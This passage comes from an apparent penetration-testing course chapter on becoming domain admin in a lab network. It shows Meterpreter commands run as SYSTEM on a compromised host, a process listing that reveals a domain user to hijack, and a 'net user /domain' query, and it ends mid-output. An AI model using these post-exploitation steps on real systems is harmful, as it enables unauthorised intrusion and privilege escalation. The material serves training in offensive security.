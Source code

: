 2

(Microsoft, 2020), [https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5595-2)

### 21.3.2. Becoming Domain Admin

We have now managed to pivot onto file01 and obtain a reverse Meterpreter shell in SYSTEM context. At this point, we must perform some additional post-exploitation enumeration to figure out if there is a way to continue our attack from this machine.

Since this is a new machine, we'll first want to determine which security solutions are in place. In most environments, solutions and settings are centrally managed, so we expect this server environment to somewhat mirror web01.

Our enumeration would indeed reveal Windows Defender, AppLocker, and LSA protection installed on file01. However, when we list all running processes with ps, we find something interesting: several processes are running in the context of a user called _paul_.

```
meterpreter > ps

Process List
============

 PID   PPID  Name                       Arch  Session  User                          Path
 ---   ----  ----                       ----  -------  ----                          ----
 0     0     [System Process]                                                        
 4     0     System                     x64   0                                      
 8     564   svchost.exe                x64   0        NT AUTHORITY\SYSTEM           
 68    4     Registry                   x64   0                                      
 252   4     smss.exe                   x64   0                                      
...
 884   496   dwm.exe                    x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 902   3852  ServerManager.exe          x64   1        EVIL\paul                     C:\Windows\System32\ServerManager.exe
 932   632   explorer.exe               x64   1        EVIL\paul                     C:\Windows\explorer.exe
 956   564   svchost.exe                x64   0        NT AUTHORITY\NETWORK SERVICE  
 968   564   svchost.exe                x64   0        NT AUTHORITY\SYSTEM
...
```

> Listing 50 - Listing all processes reveals the user paul

This seems very promising, since our SYSTEM integrity access to file01 will allow us to easily hijack any of this user's sessions.

We can use the simple native net user command to determine this user's access level.

```
meterpreter > shell
Process 5328 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> net user paul /domain
net user paul /domain
The request will be processed at a domain controller for domain evil.com.

User name                    paul
Full Name                    Paul
...
```